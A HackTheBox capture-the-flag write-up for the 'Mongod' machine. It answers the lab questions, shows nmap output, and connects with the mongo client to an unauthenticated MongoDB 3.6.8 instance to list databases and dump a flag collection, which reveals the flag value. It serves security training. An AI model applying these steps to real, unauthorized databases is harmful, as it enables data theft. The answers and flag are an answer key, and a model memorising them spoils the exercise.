 ```yaml
---
title: 🔵 HTB /  Mongod
date: 2023-08-01
categories: [HackTheBox, Machines]
tags: [mongodb]
---
```


# Mongod

_How many TCP ports are open on the machine?_

`2`

_Which service is running on port 27017 of the remote host?_

```bash
$ nmap -sV -p- <ip>
...
PORT      STATE SERVICE VERSION
22/tcp    open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.5 (Ubuntu Linux; protocol 2.0)
27017/tcp open  mongodb MongoDB 3.6.8
...

```

_What type of database is MongoDB?_

`NoSQL`

_What is the command name for the Mongo shell that is installed with the mongodb-clients package?_

`mongo`

_What is the command used for listing all the databases present on the MongoDB server?_

`show dbs`

_What is the command used for listing out the collections in a database?_

`show collections`

_What is the command used for dumping the content of all the documents within the collection named flag in a format that is easy to read?_

`db.flag.find().pretty()`

_Submit root flag_

```bash
# Download binaries
$ curl -O <https://fastdl.mongodb.org/linux/mongodb-linux-x86_64-3.4.7.tgz>

$ tar xvf mongodb-linux-x86_64-3.4.7.tgz

$ cd mongodb-linux-x86_64-3.4.7.tgz

$ ./bin/mongo mongodb://<ip>:27017
> show dbs
admin                  0.000GB
config                 0.000GB
local                  0.000GB
sensitive_information  0.000GB
users                  0.000GB
> use sensitive_information
switched to db sensitive_information
> show collections
flag
> db.flag.find().pretty()
{
	"_id" : ObjectId("630e3dbcb82540ebbd1748c5"),
	"flag" : "1b6e6fb359e7c40241b6d431427ba6ea"
}
```
